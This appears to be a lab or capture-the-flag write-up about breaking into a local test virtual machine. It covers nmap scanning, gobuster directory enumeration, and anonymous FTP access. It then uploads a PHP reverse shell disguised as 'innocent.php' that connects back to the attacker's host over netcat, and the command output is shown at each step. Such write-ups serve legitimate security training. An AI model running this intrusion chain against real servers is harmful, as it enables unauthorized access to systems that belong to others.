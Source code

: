 # Task 1: Gain access to a remote server.

After starting the machine, our first task is to identify the ip of the virtual machine in local subnet. I did that by simply doing an nmap scan on the local subnet, since we already know the machine will be hosting a server. There probably are better methods to do the same, but I found this one to be easy and fast in this case.  
`nmap 192.168.1.1/24`  
Within a few seconds, we see only 192.168.1.1 and 192.168.1.10 have open http ports, and since 192.168.1.1 is our router interface, the machine has to be 192.168.1.10.

Now we perform an indepth nmap scan of the ip, using service detection.  
`nmap 192.168.1.10 -sV -p-`  
~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:42:22:F8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
After running the following command, we find only open ports to be 21(ftp), 22(ssh) and 80(http). I tried finding the versions of these service on exploit-db but couldn't find a decent exploit and decided to investigate other things first. Using gobuster, we can perform directory enumeration on port 80 to find common directories.  
`gobuster dir -e -u http://192.168.1.10/ -w /usr/share/wordlists/dirb/common.txt`  
~~~
http://192.168.1.10/.hta                 (Status: 403) [Size: 277]
http://192.168.1.10/.htpasswd            (Status: 403) [Size: 277]
http://192.168.1.10/.htaccess            (Status: 403) [Size: 277]
http://192.168.1.10/files                (Status: 301) [Size: 312] [--> http://192.168.1.10/files/]
http://192.168.1.10/index.html           (Status: 200) [Size: 183]                                 
http://192.168.1.10/server-status        (Status: 403) [Size: 277] 
~~~
We found /files/ directory to be accessible by us containing a file 'site.html', which isn't particularly useful though.  
Next we investigate the ftp port and check if it allows anonymous connections:  
`ftp 192.168.1.10`  
~~~
Connected to 192.168.1.10.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.10]
Name (192.168.1.10:tinytrebuchet): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp            93 Oct 10 15:02 site.html
~~~
As we can see, the ftp allows anonymous access into the /files/ directory and we can now upload any file via ftp to the server and run it from /files/ on port 80. To get into the server, we will upload a simple php-reverse-shell on port 8888.  
`cp /usr/share/webshells/php/php-reverse-shell.php ~/innocent.php`  
Then we modify the reverse-shell script and change ip to our host os ip (192.168.1.6 for our case found using `ip addr`) and port to 8888. Then finally upload it the server using the ftp connection.  
`put innocent.php`  
~~~
local: innocent.php remote: innocent.php
200 PORT command successful
150 Opening BINARY mode data connection for hash.txt
226 Transfer complete
5493 bytes sent in 0.00 secs (7.9493 kB/s)
~~~
Now, we open a netcat listener on our host os at port 8888 using and then execute the reverse-shell from the http://192.168.10/files/ directory.
We should get a successful connect on our host os:
`nc -lvp 8888`
~~~
listening on [any] 8888 ...
192.168.1.10: inverse host lookup failed: Unknown host
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.10] 37384
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 02:56:34 up 39 min,  0 users,  load average: 0.08, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
